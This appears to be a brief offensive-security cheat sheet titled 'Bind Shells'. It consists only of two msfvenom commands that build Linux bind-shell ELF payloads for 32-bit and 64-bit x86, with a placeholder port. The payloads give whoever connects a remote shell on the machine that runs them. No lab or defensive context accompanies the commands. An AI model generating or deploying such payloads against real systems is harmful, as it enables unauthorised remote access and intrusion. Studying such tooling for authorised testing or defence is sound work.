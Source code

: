 # Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64`